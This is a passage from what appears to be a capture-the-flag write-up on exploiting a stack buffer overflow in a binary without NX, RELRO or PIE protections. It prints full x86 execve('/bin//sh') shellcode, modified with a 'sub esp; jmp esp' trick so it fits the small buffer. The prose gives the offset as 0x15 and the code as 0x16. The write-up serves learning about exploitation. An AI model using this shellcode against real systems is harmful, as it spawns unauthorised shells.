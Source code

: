 
There is not NX RELRO or PIE enabled in the binary. So it seems we can directly use our shellcode, instead of going in the traditional way. </br>
But using the shellcode directly causes the program to segfault.



## Completely new strategy 

We will try to directly use our shellcode. But our classic `execve(/bin/sh)` shellcode is of almost 23 bytes and the `eip` gets overwritten at 18 bytes only and adding more shellcode after that will only result in the shellcode getting overwritten.</br>


### Strategies to get fit the shellcode in the buffer

One of the things that we can do it divide the shellcode into two halves, we can put the first half (18 bytes) at the beginning and the rest after the `jmp esp` statement. Then we can modify the shellcode the point to the beginning of the stack where the rest of our shellcode is present and then jump to it.

So it will look something like this : 

```
shellcode(almost_all_of_it) + jmp_esp + the_rest_of_it + "align esp and jump to esp"
```


So, I made a few changes to the classic execve shellcode as follows : 


```
[SECTION .text]
global _start
_start:

xor edx,edx ; edx = 0 (it will be used as *envp = NULL)
xor eax,eax ; eax = 0 (it will be used as a null-terminating char)
sub esp,0x16
jmp esp
push eax
push 0x68732f2f
push 0x6e69622f ; here you got /bin//sh\x00 on the stack
mov ebx,esp ; ebx <- esp; ebx points to /bin//sh\x00
mov al, 0xb ; al = 0xb, 11, execve syscall id
int 0x80 ; execve("/bin//sh\x00",Null,Null)
```

The things that I have added are : 

1) xor edx,edx ----> This will clear up the envp pointer and will set it to NULL</br>
2) After `xor eax,eax` I have added `sub esp,0x15`. Since, the part of the shellcode which will be present at the beginning will be 0x15 bytes before.</br>
3) `jmp esp` ----> After pointing to the correct location, it jumps to esp i.e rest of the shellcode</br>


### Compiling the shellcode

